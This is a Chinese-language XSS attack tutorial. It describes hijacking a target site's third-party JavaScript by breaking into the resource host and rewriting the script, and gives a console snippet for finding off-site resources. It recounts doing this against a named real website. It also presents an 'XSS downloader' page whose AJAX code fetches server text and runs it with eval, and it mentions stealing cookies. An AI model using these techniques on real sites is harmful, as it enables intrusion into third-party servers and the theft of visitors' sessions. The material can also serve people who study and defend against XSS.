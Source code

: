 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```



